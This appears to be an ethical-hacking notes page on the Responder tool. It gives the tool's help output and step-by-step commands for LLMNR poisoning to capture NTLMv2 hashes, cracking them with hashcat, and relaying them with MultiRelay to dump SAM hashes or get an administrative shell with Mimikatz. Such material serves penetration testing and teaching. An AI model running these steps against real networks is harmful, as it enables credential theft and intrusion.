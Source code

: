 ```yaml
---
title: Responder
categories: [Ethical Hacking Tools,Credential Access]
tags: [responder, credential access (TA0006), llmnr, nbt-ns, mdns, aitm, mitm, hashcat, ntlmv2]
comments: true
---
```


## Overview

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

Responder come packaged with Kali Linux by default. [^1]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [Responder.py](https://github.com/lgandx/Responder) | v3.1.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) |

## Responder Help Page

```bash
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder's one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```

{: .nolineno }

## Instructions

### Using Responder to Perform LLMNR Poisoning

Execute the below command on the attacker machine. Ensure that the `-I` switch is set to interface that is on the same network as the target.

```bash
# Running the listener will wait for a host to make a request
sudo responder -I ens33 -wd
```

{: .nolineno }

Once a set of NTLMv2 credentials have been collection, the password can be attempted to be cracked.

#### Cracking NTLMv2 Credentials with HashCat

With the previously obtained NTLMv2 credential hash collected and saved to a text file. It can be parsed through a credential cracking utility such as hashcat.

```bash
hashcat -m 5600 -a 0 /PATH/TO/DUMP.txt /usr/share/wordlists/rockyou.txt 
```

{: .nolineno }

### Using Responder-Finger and Responder-MultiRelay

Responder comes packaged with additional tools can be used together with Responder to perform other tasks, such as relaying NTLMv2 credentials to gain authenticated access via SMB without the requirement to crack a collected NTLMv2 password hash. The below example shows how to identify systems that don't require SMB signing (a requirement for this method to work) using `Responder-Finger` and setup the `Responder-MultRelay` to gain authenticated access to another host. Local Administrative privileges is however a requirement for the process to work.

This will require three hosts; the attacker, the requesting LLMNR victim, and the target.

1. Configure the Responder configuration file located at `/etc/Responder/Responder.conf` (On Kali Linux) to disable SMB and HTTP server replies.

    ```conf
    SMB = Off
    HTTP = Off
    ```

2. Start Responder to listen for LLMNR requests. Ensure that the `-I` switch is set to interface that is on the same network as the target.

    ```bash
    sudo responder -I ens33 -wd
    ```

    {: .nolineno }

3. Identify hosts on the target network that have SMB signing disabled, the `-i` switch requires the subnet to search. Once the results are returned, identify any hosts that return `SMB signing: False`. If none are returned, this method will not work and NTLMv2 credentials will need to be cracked instead.

    ```bash
    sudo responder-RunFinger.py -i 10.10.10.1/24
    ```

    {: .nolineno }

4. Start the MultiRelay to relay the NTLMv2 credentials to any target host identified in step 3. In this example, `10.10.10.10` was identified to have SMB signing disabled and is therefore used as the target `-t`. The `-d` switch will instruct the MultiRelay tool to dump the local password hashes. The `-d` switch can be omitted which will instead return an administrative shell to the target machine.

    ```bash
    sudo responder-MultiRelay.py -t 10.10.10.10 -u ALL -d
    ```

    {: .nolineno }

5. If the `-d` switch was omitted in step 4, an interactive shell will be returned allowed the following commands.

   - Dump: Extract the SAM database and print hashes
   - regdump KEY: Dump a HKLM registry key
   - read: Read a file
   - get: Download a file
   - delete: Delete a file
   - Upload: Upload a local file to `\windows\temp\`
   - runas: Run a command as the currently logged on user
   - scan: Performs a scan using SMB for other local targets (use /24 or /26 to limit scope)
   - mimi: Run a remote Mimikatz 64 command
   - mimi32: Run a remote Mimikatz 32 command
   - lcmd: Run a local command

## Sources

[^1]: [Kali - Responder](https://www.kali.org/tools/responder/)
